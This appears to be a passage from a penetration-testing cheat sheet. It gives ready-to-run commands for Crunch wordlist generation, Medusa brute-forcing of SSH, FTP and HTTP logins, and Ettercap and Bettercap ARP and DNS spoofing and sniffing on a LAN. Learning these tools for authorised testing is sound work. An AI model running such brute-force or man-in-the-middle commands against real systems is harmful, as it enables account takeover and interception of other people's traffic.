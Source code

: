 ## 13. Crunch: Custom Wordlist Generator
Crunch creates custom wordlists based on specific patterns and lengths.

**Usage Examples:**
```sh
crunch 4 6 abc123 -o wordlist.txt
crunch 4 8 0123456789 -o numbers.txt
crunch 8 8 -t @@2022@@ -o pattern.txt
crunch 6 8 -o customlist.txt
```

## 14. Medusa: Parallel, Modular Login Brute-Forcer
Medusa is a fast, parallel brute-forcing tool for services like FTP, SSH, HTTP, and more.

**Basic Syntax:**
```sh
medusa -h [host] -u [username] -P [password_list] -M [module]
```
**Usage Examples:**
```sh
medusa -h 192.168.1.5 -u admin -P passwords.txt -M ftp
medusa -h 192.168.1.5 -u root -P /usr/share/wordlists/rockyou.txt -M ssh
medusa -h 192.168.1.5 -u admin -P passwords.txt -M http -m DIR:/admin
medusa -H hosts.txt -u admin -P passwords.txt -M ssh
```

## 15. Ettercap: Network Sniffing and Man-in-the-Middle (MITM) Attacks
Ettercap is a tool for MITM attacks on LANs.

**Basic Syntax:**
```sh
sudo ettercap [options]
```
**Usage Examples:**
```sh
sudo ettercap -G
sudo ettercap -T -q -i wlan0 -M arp:remote /192.168.1.1/ /192.168.1.5/
sudo ettercap -T -i wlan0
sudo ettercap -T -w capture.pcap
```
  - `-T`: Text mode.
  - `-q`: Quiet mode.
  - `-M arp:remote`: ARP spoofing between the router and target.


## 16. Bettercap: Advanced Network Attacks & Monitoring
Bettercap is an improved, modular version of Ettercap for network attacks, MITM, and packet sniffing.

**Basic Syntax:**
```sh
sudo bettercap -iface wlan0
```
**Usage Examples:**
```sh
net.probe on
net.recon on
net.sniff on
set arp.spoof.targets 192.168.1.5
arp.spoof on
http.proxy on
set dns.spoof.domains example.com
set dns.spoof.address 192.168.1.100
dns.spoof on
```